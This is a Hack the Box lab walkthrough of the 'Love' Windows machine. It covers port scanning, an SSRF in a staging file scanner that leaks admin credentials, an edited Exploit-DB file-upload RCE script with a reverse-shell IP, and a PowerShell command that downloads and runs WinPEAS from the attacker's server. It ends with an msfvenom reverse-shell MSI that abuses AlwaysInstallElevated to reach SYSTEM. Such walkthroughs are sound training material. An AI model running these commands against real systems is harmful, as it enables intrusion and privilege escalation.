







In this post, I walk you through Love from Hack the Box, an easy Windows box where good enumeration is the key to success. The box contains a bunch of open ports, the main interesting ones serving HTTP are 80, 443 and 5000. This last one gives access denied, but on ports 80 and 443 you will find a voting system secured by a login prompt. Via the certificate on port 443 you can leak some extra domains that give access to a tool that contains a CSRF that allows you to access services on localhost. This way, you get access to the service running on port 5000, which has admin credentials that grant access to the voting system. Once in the voting system, we can leverage a known CVE to upload a malicious payload and get a reverse shell on the box. On the box, you then execute an `msi` to get root. With all that said, let's dive right in and start our port scan enumeration.

## Enumeration

We are starting our investigation with a nmap scan. This allows getting a better overview of what is exposed on the target machine. We'll use `-sV` to enumerate versions, `-sC` to run all default scripts, and store the output in a file named `nmap.txt`. This way, we can always refer back to it later. This machine contains a fair few of open ports, hence why the scan might take some time. Add `-v` as a parameter if you want nmap to show open ports while it finds them.

```sh
# Nmap 7.91 scan initiated Thu May 13 22:52:17 2021 as: nmap -sC -sV -o nmap.txt -v 10.10.10.239
Nmap scan report for 10.10.10.239
Host is up (0.032s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Issuer: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-01-18T14:00:16
| Not valid after:  2022-01-18T14:00:16
| MD5:   bff0 1add 5048 afc8 b3cf 7140 6e68 5ff6
|_SHA-1: 83ed 29c4 70f6 4036 a6f4 2d4d 4cf6 18a2 e9e4 96c2
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h48m29s, deviation: 4h02m32s, median: 28m27s
| smb-os-discovery:
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-05-13T14:21:09-07:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-05-13T21:21:05
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 13 22:52:46 2021 -- 1 IP address (1 host up) scanned in 29.20 seconds
```

There is lots of good stuff in this output. A few things to note are the open ports 80, 443 and 5000 serving some HTTP applications. Digging a bit deeper into the result for these ports, we can see the certificate and service info leaking the following domains for us:

- www.love.htb
- staging.love.htb

Let's add them to our hosts file and see what we get:

```sh
sudo vim /etc/hosts

27.0.0.1       localhost
127.0.1.1       kali

10.10.10.239    www.love.htb staging.love.htb
```

On `www.love.htb` we find a Voting System application protected by a login page:


On `staging.love.htb`, we find some file scanner.



Going to `10.10.10.239:80` we get presented with the Voting app again. But trying to open `443` or `5000` we get presented with a forbidden page:


Given the `Voting System` app is protected by a login, let's focus on the file scanner tool first. But before we do that, let's kick run a `gobuster` scan against this app and see if we can maybe find some hidden paths that can leak some interesting information:

```sh
$ gobuster dir -u http://www.love.htb -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt  -o ./gobuster-php.txt -x php
```

In the file scanner tool, let's try and upload a file and see what happens. From the nmap output, we can see an apache running PHP so let's try and upload a couple of files and see what happens. Maybe we get lucky and get easy code execution. We can spin up a local webserver with with `python -m http.server` and serve a few simple files:

```sh
$ cat <<EOF > hello.txt
> hello
> EOF

$ cat <<EOF > hello.php
> <?php
echo "Hello world!";
?>
> EOF
```

With this in place we have a couple of files that we can upload from our local machine. A plain text file and a very barebones php file to test if we can get any form of code execution.



We can see that the file uploader calls our local service, downloads the file, and then just echos the file's contents right back to us. Let's open Burp suite and make the same request again to intercept the request and send it over to the repeater. This way, we can more easily play around with this upload tool.


We can start tweaking this request in the repeater and upload the different payloads that we prepared earlier. But whatever we upload just get's send back to us. So other than maybe XSS, this seems to be a dead-end:



But we can see that this tool is actually sending out HTTP requests. We could see the request come into our python webserver. So let's think about this for a second: we have access to a piece of code that can make outbound requests from the target machine. This means that we can start making requests to the localhost of this target machine via this service. Often services running on localhost don't have the same set of access checks in place. This is because requests are not going through whatever reverse proxy is enforcing these checks but rather directly to the web app. Earlier, we noticed that when going to `http://10.10.10.239:5000`, we got presented with a forbidden page. Let's try accessing this service directly from localhost through this tool:



## Foothold

We got a set of credentials that we can use to log into the Voting System application. If you look at the results from the `gobuster` scan we kicked off earlier. You will see a `/admin` path. Let's open that page and see if these credentials work:

- **Username**: admin
- **Password**: @LoveIsInTheAir!!!!



Let's use `searchploit` and see if we can find a known exploit that we can use to get a foothold on the box:

```sh
$ searchsploit "Voting System"

----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Online Voting System - Authentication Bypass                                                                                                               | php/webapps/43967.py
Online Voting System Project in PHP - 'username' Persistent Cross-Site Scripting                                                                           | multiple/webapps/49159.txt
Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution)                                                                                  | php/webapps/49445.py
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

The last one looks interesting: `Voting System 1.0 - File Upload RCE` and get a copy of the script into a local folder:

```sh
$  hack searchsploit -m 49445

  Exploit: Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution)
      URL: https://www.exploit-db.com/exploits/49445
     Path: /usr/share/exploitdb/exploits/php/webapps/49445.py
File Type: ASCII text, with very long lines, with CRLF line terminators

Copied to: /home/nickvd/HTB/Love/hack/49445.py
```

As is, the script doesn't work, so we'll need to make a couple of changes. First, we'll need to add the correct URL, username, and password in the settings area. Besides that, we'll also need to change the hardcoded URL's. The script assumes that the whole app is running behind `/votesystem`, but in our case everything is hosted behind `/`:

```diff
 import requests

 # --- Edit your settings here ----
-IP = "192.168.1.207" # Website's URL
-USERNAME = "potter" #Auth username
-PASSWORD = "password" # Auth Password
-REV_IP = "192.168.1.207" # Reverse shell IP
+IP = "www.love.htb" # Website's URL
+USERNAME = "admin" #Auth username
+PASSWORD = "@LoveIsInTheAir!!!!" # Auth Password
+REV_IP = "10.10.14.28" # Reverse shell IP
 REV_PORT = "8888" # Reverse port
 # --------------------------------

-INDEX_PAGE = f"http://{IP}/votesystem/admin/index.php"
-LOGIN_URL = f"http://{IP}/votesystem/admin/login.php"
-VOTE_URL = f"http://{IP}/votesystem/admin/voters_add.php"
-CALL_SHELL = f"http://{IP}/votesystem/images/shell.php"
+INDEX_PAGE = f"http://{IP}/admin/index.php"
+LOGIN_URL = f"http://{IP}/admin/login.php"
+VOTE_URL = f"http://{IP}/admin/voters_add.php"
+CALL_SHELL = f"http://{IP}/images/shell.php"

 payload = """
```

With those changes in place, all we have to do now is prepare our reverse listener and kick of the script:



And we got a shell on the box that gives access to the user flag:

```powershell

PS C:\xampp\htdocs\omrs\images> whoami
love\phoebe

PS C:\xampp\htdocs\omrs\images> ls c:/users/phoebe/desktop

    Directory: C:\users\phoebe\desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         8/10/2021   8:43 AM             34 user.txt

```

## Lateral Movement

To fingerprint the system and get an idea of our next steps lets run [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS). After cloning the repo to your local machine navigate to the directory containing `winPEASany.exe` and start a Python web server with `python m http.server`. This way we can with `PowerShell` easily download and directly execute this binary:

```powershell
PS C:\xampp\htdocs\omrs\images> $wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "http://10.10.14.28:8000/winPEASany.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")

<...>

͹ Checking AlwaysInstallElevated
  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!

<...>
```

I removed any noice from the very long output that `WinPEAS` generates. The interesting part is that `AlwaysInstallElevetad` is set to 1. These registry keys tell windows tha a user of any privilage can install an `msi` file as `NT AUTHORITY\SYSTEM`. All we need to do here is craft a malicious installer and run it to get access as the system user.

To generate this installer we can use a tool called `msfvenom` and have it execute a reverse shell payload that we can point to an `nc` listener running on our local machine. On our local machine execute the following command to generate the payload:

```sh
$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.28 lport=6666 -f msi > payload.msi

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes
```

You can see it generated a 32-bit payload. On this machine, the payload type isn't all too important. Windows has a thing called `WoW` or Windows on Windows, allowing us to easily execute 32-bit binaries on a 64-bit system. If you ever bumped into Windows Core or Windows IOT, then `WoW` will most likely not be present.. In that scenario, it will be important you create the correct payload.

From the directory where you created the `msi` installer, launch another web server with python so can easily drop the installer on the box:



And we are in! As you can see we have access as `NT AUTHORITY\SYSTEM` and are able to read the root flag:

```sh
C:\WINDOWS\system32>dir c:\Users\Administrator\Desktop
dir c:\Users\Administrator\Desktop
 Volume in drive C has no label.
 Volume Serial Number is 56DE-BA30

 Directory of c:\Users\Administrator\Desktop

04/13/2021  03:20 AM    <DIR>          .
04/13/2021  03:20 AM    <DIR>          ..
05/14/2021  10:01 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   2,219,917,312 bytes free
```
